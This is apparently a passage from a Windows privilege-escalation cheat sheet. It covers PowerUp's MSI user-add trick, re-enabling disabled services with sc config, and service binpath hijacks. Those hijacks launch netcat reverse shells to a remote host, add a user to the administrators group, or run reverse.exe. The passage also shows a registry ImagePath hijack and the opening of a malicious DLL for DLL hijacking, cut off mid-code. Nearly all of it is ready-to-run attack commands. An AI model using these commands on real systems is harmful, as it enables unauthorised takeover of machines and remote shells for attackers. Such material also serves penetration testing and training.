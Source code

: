 ```
```
Otherwise, use PowerUp:
```
Write-UserAddMSI
```
and execute the crated binary to escalate privileges.
## Active process and services 
### Enable service
If you are having this error (for example with SSDPSRV):
```
_System error 1058 has occurred._   _The service cannot be started, either because it is disabled or because it has no enabled devices associated with it._
```
You can enable it using
```
sc config SSDPSRV start= demand
sc config SSDPSRV obj=   ".\\LocalSystem"   password=   ""
```
**Take into account that the service upnphost depends on SSDPSRV to work (for XP SP1)**
**Another workaround** of this problem is running:
```
sc.exe config usosvc start= auto
```
### Restart service
```
wmic service <Service_Name> call startservice
net stop <Service_Name> && net start <Service_Name>
```
### Insecure service permissions
#### Modify binpath (SERVICE_CHANGE_CONFIG)
```
sc config <Service_Name> binpath= "\"C:\PrivEsc\reverse.exe\""
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
```
### Weak registry permissions 
#### Modify ImagePath (WriteData/AddFile)
```
reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\regsvc /v ImagePath /t REG\_EXPAND\_SZ /d C:\\PrivEsc\\reverse.exe /f
```
#### Dll hijacking (AppendData/AddSubdirectory)
Create malicious DLL:
```
  
#include &lt;iostream&gt;
#include &lt;Windows.h&gt;
#include &lt;Lmcons.h&gt; // UNLEN + GetUserName
#include &lt;tlhelp32.h&gt; // CreateToolhelp32Snapshot()
#include &lt;strsafe.h&gt;

extern "C" __declspec(dllexport) DWORD APIENTRY OpenPerfData(LPWSTR pContext);
extern "C" __declspec(dllexport) DWORD APIENTRY CollectPerfData(LPWSTR pQuery, PVOID* ppData, LPDWORD pcbData, LPDWORD pObjectsReturned);
extern "C" __declspec(dllexport) DWORD APIENTRY ClosePerfData();
void Log(LPCWSTR pwszCallingFrom);
void LogToFile(LPCWSTR pwszFilnema, LPWSTR pwszData);

DWORD APIENTRY OpenPerfData(LPWSTR pContext)
{
```